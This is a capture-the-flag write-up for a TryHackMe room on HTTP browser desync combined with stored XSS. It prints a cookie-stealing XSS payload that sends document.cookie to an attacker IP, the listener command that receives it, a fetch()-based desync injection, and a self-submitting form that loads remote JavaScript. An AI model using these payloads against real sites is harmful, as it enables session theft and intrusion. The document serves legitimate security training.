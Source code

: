 # Summary 
- link https://tryhackme.com/room/requestsmugglingbrowserdesync
- skills required XSS, python, javascript, HTTP browser desync
- additional readings: https://portswigger.net/research/browser-powered-desync-attacks
- Question. why the desync didn't work when the browser was proxy via burp?

# Write-up to get the flag (not the right way)
- to confirm vulnerability on HTTP Browser Desync, connection was checked to be keep-alive.
  <img width="861" height="629" alt="Screenshot from 2025-10-03 10-00-24" src="https://github.com/user-attachments/assets/a8f71f80-b033-4a4a-a3f1-6f34b2229f3a" />
- to combine with XSS there need to be a point to inject XSS. This page didn't allow sign up or login. The link 'Help' is for a Contact Us page.
- A simple payload was tested but wasn't executed.
  <img width="861" height="629" alt="image" src="https://github.com/user-attachments/assets/aa6a25fb-014d-40f6-b816-1ff3e528998c" />
- to check if the XSS is executed in the backend I tried another payload
  <img width="861" height="629" alt="Screenshot from 2025-10-03 10-12-29" src="https://github.com/user-attachments/assets/db8a9b0f-5e9b-44a6-bfbb-f6f07ef24ad1" />
- It worked. Then there is nothing stopping us to simply using the message field to carry out a XSS attack.
  <img width="1601" height="539" alt="Screenshot from 2025-10-03 10-14-59" src="https://github.com/user-attachments/assets/b23d6e19-b671-455d-b532-887d716a27d4" />
- the new payload is
- `<img src=x onerror="new Image().src='http://10.11.139.184:4440/?='+document.cookie;">`
- again in attack bow fire up `python3 -m http.server 4440`
- Flag obtained.
  <img width="1585" height="614" alt="image" src="https://github.com/user-attachments/assets/6590398c-1bff-4cb1-b53f-d818836ae7bc" />

# Write-up to get the flag (HTTP Browser Desync)
- OK. We are having a stored XSS and keep-alive connect. We can move on to test if the site is vulunable to HTTP Browser Desync attack.
- Then in the follow hour I was trouble shooting trying to understand why the injection didn't work in console to desync the supposingly vulunable site.
```javascript
fetch('http://challenge.thm', {
    method: 'POST',
    body: 'GET /redirect HTTP/1.1\r\nFoo: x',
    mode: 'cors',
})
```
- At the end I found it didn't work when it was proxy through burp. Then I closed burp and proceed. Below screenshot was for illustration. The step-by-step testing was, first put the script in console and enter. Then refresh the page, and it would display Not Found.
  <img width="1036" height="369" alt="image" src="https://github.com/user-attachments/assets/87e67811-f4c4-4334-94b9-a1d3743a96af" />
- Ok. The difficult part is here.
- Step 1: The new payload should be pointing to own server to get a malicious javascript. This was given in task 5.
```javascript
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
- Step 2: the malicious Javascript shall send the cookies with flag to own server.